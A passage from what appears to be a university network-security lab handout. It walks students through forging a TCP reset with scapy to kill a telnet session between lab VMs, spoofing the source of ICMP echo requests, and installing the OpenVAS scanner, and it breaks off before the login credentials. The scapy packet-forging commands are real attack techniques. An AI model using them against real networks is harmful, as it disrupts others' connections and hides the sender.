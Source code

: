 - 2.2.2. Set a telnet connection between VM2 and VM3.

- 2.2.3. Use scapy to send a packet of reset, from VM4 to one of the machines, using the correct sequence number:

```sh
$ scapy
>>> packet = IP(src='192.168.1.254', dst='192.168.1.1')/TCP(sport= <port>, dport=23, seq=<ack number>, flags='R')
>>> send(packet)
```

The following image shows an example of the last two packets received in the TCP dump in VM4 after the telnet login in VM2, and the correct port and ack number to use in the command above in this case.

![Packets](packet.PNG)

- 2.2.4. Check if connection is closed.

    Question: From which machine are you expecting the `<port>` and `<ack number>` in the 2.2.3 command?

### 2.3. Redirect response to ICMP echo/request

This attack allows a ping response to be sent to a machine that did not make the request.

- 2.3.1. Run tcpdump on VM4 to spy the source and destination of the packets (recall that option -i selects the network interface).

```sh
$ sudo tcpdump "ip[9]=1"
```

- 2.3.2. Send a ICMP packet with a wrong source:

```sh
$ scapy
>> sr(IP(dst='192.168.1.254', src='<IP of a different machine>')/ICMP())
```



## 3 OpenVAS

OpenVAS is a vulnerability scanner tool, and it can perform a security analysis on a remote machine, by scanning for vulnerabilities.
In typical operation, OpenVAS begins by doing a port scan to determine which ports are open on the target and then tries various exploits on the open ports.

To install OpenVAS:

- Install docker on your host machine: https://docs.docker.com/engine/install/ubuntu/
- Grab the OpenVAS container from the docker registry and start it up: https://hub.docker.com/r/mikesplain/openvas

In the web browser, go to: `https://127.0.0.1`

Login using the following credentials:
